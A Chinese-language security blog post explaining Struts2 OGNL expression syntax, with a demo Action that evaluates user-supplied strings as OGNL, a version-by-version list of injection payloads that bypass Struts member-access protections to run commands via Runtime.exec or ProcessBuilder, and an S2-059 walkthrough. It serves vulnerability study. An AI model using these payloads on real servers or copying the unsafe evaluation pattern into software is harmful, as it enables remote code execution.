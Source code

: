 ```yaml
---
layout:     post
title:      Struts2 ONGL 表达式
subtitle:   开始接触struts2框架、继续学习java的表达式
date:       2020-10-11
author:     BY Diego
header-img: /img/wenzhang/post-bg-java-struts-ognl.jpg
catalog: true
tags:
    - Java
    - 命令注入
---
```




![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)





### Ognl 表达式基本使用



使用方法：

```java
OgnlContext context = new OgnlContext()  //创建一个Ognl上下文环境
context.setRoot() //设置root元素 （根元素
context.put("id",1) //向环境变量中加入变量
Object ognl = Ognl.parseExpression("#id") //建立表达式 (取值
value = Ognl.getValue(ognl,context,context.getRoot()) //执行
```



demo 类

```java
package com.diego.demo;

import com.opensymphony.xwork2.Action;
import com.opensymphony.xwork2.ActionContext;
import ognl.Ognl;
import ognl.OgnlContext;

public class Ognl_test implements Action {

    public String payload;

    public class Users{
        Users(Integer age,String name){
            this.age = age;
            this.name = name;
        }
        public Integer age ;
        public String name ;
    }
    
    public String getPayload(){
        return payload;
    }

    @Override
    public String execute() throws Exception {
        // 创建 Action 容器
        ActionContext actionContext = ActionContext.getContext();
        if(payload != null){
			// 创建一个Ognl上下文环境
            OgnlContext context = new OgnlContext();
            Object value = null;
            try {
                // id = 1 加入环境变量
                context.put("id",1);
                Users users1 = new Users(1,"Diego1");
                Users users2 = new Users(2,"Diego2");
                // users1 users2 加入环境变量
                context.put("users1",users1);
                context.put("users2",users2);
                // 设置users1 为ROOT对象
                context.setRoot(users1);
				// 创建 Ognl 表达式
                Object ognl = Ognl.parseExpression(payload);
                // 解析表达式
                value = Ognl.getValue(ognl,context,context.getRoot());
            } catch (Exception e) {
                e.printStackTrace();
            }
            // 解析结果 放入Action 容器
            actionContext.put("res",value);
            System.out.println(value);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}

```



结合上面例子看出Ognl语法为 ：

**访问非根元素 :**

* #[变量]    ----->  `#users2` ,`#id`

* #\[对象][属性]   ----->  `#users2.age`

* #\[对象]\[方法名]()   ----->  `#users2.test()`

**访问根元素：** （以一个对象为根元素 访问成员或方法时可以 去掉`#对象名.`

* \[对象][属性]  ----->  `age`,`name`
* \[对象]\[方法名]()  ----->  `test()`

  **调用方法**：

* `xxx.getName()`

**支持类静态的方法调用和值访问**

 格式：`@[类全名（包括包路径）]@[方法名 |  值名]`

* 调用方法 `@java.lang.Runtime@getRuntime().exec('calc')`

* 调用成员 `@com.diego.demo.Ognl_test@aaa`  //

![0rYB28.png](https://s1.ax1x.com/2020/10/09/0rYB28.png)

**可以给上下文的变量赋值**

* 一般变量 `#id=111111,#id` 
* 成员变量 `#users2.age=99999,#users2.age`

![0rNxDe.png](https://s1.ax1x.com/2020/10/09/0rNxDe.png)

**静态方法调用**

* `@@min(1,2)`



**多语句执行**

* `().() 可以执行多语句`

### Ognl命令注入 历史漏洞

以下都是绕过`SecurityMemberAccess` 或者修改 `memberAccess`

**Struts 2.3.14.1版本前**

```
(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc'))
```

**2.3.14.1后 - 2.3.20版本前**

```
(#p=new java.lang.ProcessBuilder('calc')).(#p.start())
```



**2.3.20版本 - 2.3.28版本** (本地2.3.37 也可

```
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.3.30(2.5.2)之后**

```
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.5.16**

```
第一次

(#context=#attr['struts.valueStack'].context).
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))

第二次
(#context=#attr['struts.valueStack'].context).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('curl 127.0.0.1:9001'))
```





### Struts2 059

影响版本

Struts 2.0.0 - Struts 2.5.20

Apache Struts 2 会对某些标签属性（比如 id）的属性值进行二次表达式解析，并且在 Struts 标签属性内强制进行 OGNL 表达式解析时的情况因此在某些场景下将可能导致远程代码执行。



服务端代码 （及diego可控

```java
public class Ognl_test implements Action {
    
    public String diego ;
    public String getDiego(){
        return diego;
    }
    
    @Override
    public String execute() throws Exception {
        ActionContext actionContext = ActionContext.getContext();
        if(diego != null){
            actionContext.put("diego",diego);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}
```



Ognl.jsp

![0cBkAf.png](https://s1.ax1x.com/2020/10/11/0cBkAf.png)





![0cDZa6.png](https://s1.ax1x.com/2020/10/11/0cDZa6.png)



`%{(#aaaa=123456).(#aaaa)}` ,可以执行Ognl 表达式

![0cruT0.png](https://s1.ax1x.com/2020/10/11/0cruT0.png)



绕过方法与`Ognl命令注入` 相同

s2-059 payload 与具体版本有关